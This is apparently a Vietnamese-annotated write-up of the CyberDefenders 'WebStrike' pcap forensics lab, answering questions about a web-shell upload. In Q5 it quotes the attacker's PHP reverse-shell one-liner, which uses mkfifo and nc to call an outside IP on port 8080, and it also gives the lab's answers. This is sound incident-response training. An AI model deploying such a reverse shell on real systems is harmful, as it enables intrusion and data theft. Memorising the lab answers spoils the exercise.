 # Instructions:
  ### Uncompress the lab (pass: cyberdefenders.org)

# Scenario:

  ### An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap.

# Tools:
  ### Wireshark

# File:
file: [LabFile](LabFiles/c116-WebStrike.pcap)
  
## Q1: Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

### Solution
* Mở file pcap bằng Wireshark
* Ở câu này, yêu cầu tìm địa chỉ thành phố của bên attack
* Mình nhận thấy file đã capture được source ip là 117.11.88.124
* Mình đã lên gg và search find place from ip address và tìm được một web
* Nhập địa chỉ ip vào đó và đã tìm được address là thành phố Tianjin, China

![image](Image/Q1.png)

`Answer: Tianjin`

## Q2: Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?

### Solution
* Xem gói có Protocol HTTP có phương thức GET cho phép chúng ta lấy được một số thông tin bên máy chủ gửi dữ liệu

![image](Image/Q2.png)

`Answer: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

## Q3: We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
### Solution
* Yêu cầu là tìm file chứa mã độc thì mình đã tìm những packet HTTP có phương thức POST và tìm thấy file được upload
* So sánh các file đó với answer format và mình đã tìm thấy file theo yêu cầu
![image](Image/Q3.png)

`Answer: image.jpg.php`
## Q4: Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?
### Solution
* Bước này mình đã sử dụng filter để thử tìm tên file upload
* Tên filter: uploaded
* Sau đó đối chiếu với answer format

![image](Image/Q4.png)
`Answer: /reviews/uploads/`
## Q5: Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?
### Solution
* Yêu cầu là cổng nào được sử dụng để chứa mã độc thì mình đã research ra được cổng 8080 thường được dựng lên để gửi mã độc
* Đoạn mã độc được tìm thấy:
`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`
`Answer: 8080`
## Q6: Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
### Solution
* Sau khi mình đọc đoạn mã độc thì có thể hiểu là máy tấn công sẽ thực hiện được các câu lệnh và khiến bên bị tấn công gửi file về địa chỉ ip tại cổng 8080
* Nên mình đã dùng filter source ip: 24.49.63.79 và tìm thấy file bị gửi đi

![image](Image/Q6.png)
`Answer: passwd`
